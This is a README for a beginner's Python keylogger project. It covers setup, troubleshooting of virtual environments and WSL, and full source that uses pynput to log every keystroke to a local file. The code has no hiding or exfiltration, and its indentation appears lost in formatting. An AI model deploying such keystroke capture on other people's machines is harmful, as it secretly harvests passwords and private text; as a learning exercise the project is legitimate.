 # Keylogger_Project

Project Description

This project is a Python-based keylogger designed to capture keystrokes and store them in a local text file. It was created for learning and exploration purposes, and it demonstrates the use of libraries and logging functionality in Python.

Learning Objectives

The goals for this project included:
   
    Building a functional keylogger script in Python.
    Understanding and resolving issues with virtual environments and package installations.
    Gaining familiarity with troubleshooting techniques in different development environments (WSL and native Windows).

Prerequisites:

    Python 3.10 or later
    pynput package
    Virtual environment setup (optional)

Setup and Installation
  1. Clone the repository:

    git clone https://github.com/yourusername/Keylogger_Project.git

  2. Create a virtual environment:

    python3 -m venv keylogger_env

  3. Activate the environment:

  For Windows:

      keylogger_env\Scripts\activate

  For WSL/Linux:

      source keylogger_env/bin/activate

  4. Install dependencies:

    pip install pynput

Usage

  1. Run the script:

    python3 keylogger_script.py

  2. Log files will be generated in the same directory as <keylogger_script.py>.


Key Challenges and Solutions

During this project, several challenges were encountered and resolved:

    1. Issue: ModuleNotFoundError for pynput
        -Solution: Verified virtual environment installation and activated it correctly. Found that sudo bypassed the virtual environment, so permissions were managed without sudo.

    2. Environment-Specific Issues:
        -Problem: Script did not initially work on WSL.
        -Solution: Troubleshot environment by switching to a native Windows environment. This helped verify if WSL-specific permissions were the source of the issue.

    3. Permissions:
        -Solution: Adjusted file permissions in Ubuntu to ensure the script could write to the log file, especially when running without elevated permissions.

Script Overview

Each part of the code in keylogger_script.py is briefly explained below to help other users understand its function:

python

    from pynput import keyboard
    import logging
    from datetime import datetime

    # Setup logging configuration
    logging.basicConfig(filename="key_log.txt", level=logging.DEBUG, format="%(asctime)s - %(message)s")

    # Function to log keystrokes
    def on_press(key):
    logging.info(f"{key} pressed")

    # Start listener
    with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

  - pynput: Used to capture keystrokes.
  - logging: Logs each keystroke into key_log.txt with date and timestamp.
  - keyboard.Listener: Initiates listening and logging until manually stopped.

Future Improvements

  - Error Handling: Add error handling for different environments.
  - Dynamic File Paths: Allow for customizable log file paths.
